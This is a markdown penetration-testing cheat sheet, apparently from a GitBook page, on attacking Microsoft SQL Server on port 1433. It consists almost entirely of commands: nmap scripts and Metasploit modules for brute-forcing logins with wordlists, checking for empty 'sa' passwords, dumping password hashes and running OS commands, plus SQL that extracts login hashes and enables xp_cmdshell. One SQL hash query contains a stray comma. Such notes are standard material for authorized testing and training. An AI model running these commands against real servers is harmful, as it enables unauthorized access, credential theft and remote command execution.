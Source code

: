 ```yaml
---
description: 'Port: 1433'
---
```


# MSSQL

## Nmap Scripts

### Get information about the target SQL server

```
nmap --script ms-sql-info -p 1433 <IP addr>
```

### Check NTLM authentication

```
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <IP addr>
```

### Find valid SQL username/password

```
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/Wordlist/common_users.txt,passdb=/root/Desktop/Wordlist/100-common-passwords.txt <IP addr>
```

### Check if 'sa' user is configured with empty password or not

```
nmap -p 1433 --script ms-sql-empty-password <IP addr>
```

### Extract all user login

```
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=<password>,ms-sql-query.query="SELECT * FROM master..syslogins" <IP addr> -oN output.txt
```

### Extract all SQL users hashes

```
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=<password> <IP addr>
```

### Execute commands on the target machine

```
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=<password>,ms-sql-xp-cmdshell.cmd="ipconfig" <IP addr>
```



***

## Metasploit

### Run msfconsole

```
msfconsole -q
```

### Run MSSQL Login Module

```
use auxiliary/scanner/mssql/mssql_login

set RHOSTS <target ip>

set USER_FILE <username wordlist>

set PASS_FILE <password wordlist>

set VERBOSE false

exploit
```

### Run MSSQL Enumeration Module

```
use auxiliary/admin/mssql/mssql_enum

set RHOSTS <IP addr>

exploit
```

### Run MSSQL User Enumeration Module

```
use auxiliary/admin/mssql/mssql_enum_sql_logins

set RHOSTS <IP addr>

exploit
```

### Execute Command

```
use auxiliary/admin/mssql/mssql_exec

set RHOSTS <Target IP addr>

set CMD whoami

exploit
```

### Enumerate all target machine accounts

```
use auxiliary/admin/mssql/mssql_enum_domain_accounts

set RHOSTS <Target IP addr>

exploit
```



***

## Linux CLI

### Connect to target MSSQL Server using MSSQL CLI Python utility

```
python3 -m mssqlcli.main -S <IP addr> -U <username> -P <password>
```

### Get SQL Server version details

```
select @@version;
```

### Checking target server hostname

```
select host_name();
```

### Extracting SQL logins

```
select loginname from syslogins where sysadmin = 1;
```

### Check all the available databases

```
select name from sys.databases;
```

### Check all sys users

```
select * from sysusers;
```

### Extracting SQL users hashes

```
select name, password_hash FROM master.sys.sql_logins
```

### Check if xp\_cmdshell is enabled or not

```
SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';
```

### Enable xp\_cmdshell

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;exec SP_CONFIGURE 'xp_cmdshell', 1;RECONFIGURE
```

### Execute sys command using xp\_cmdshell

```
EXEC xp_cmdshell "whoami"
```



***

## SQLCMD

{% embed url="https://learn.microsoft.com/en-us/sql/tools/sqlcmd/sqlcmd-utility?view=sql-server-ver15&tabs=go%2Clinux&pivots=cs1-bash" %}

### Connect to target MSSQL machine using sqlcmd utility

```
sqlcmd -S <Target IP addr> -U admin -P <password>
```

### Check MSSQL version details

```
select @@version
go
```

### Check current database

```
select db_name();
go
```

### Check current machine hostname

```
SELECT HOST_NAME();
go
```

### Extract all sys logins

```
select loginname from syslogins where sysadmin = 1;
go
```

### Extract all available databases

```
select name from sys.databases;
go
```

### Extract SQL users hashes

```
select name, password_hash, FROM master.sys.sql_logins;
```

### Get details of xp\_cmdshell

```
SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name = 'xp_cmdshell';
go
```

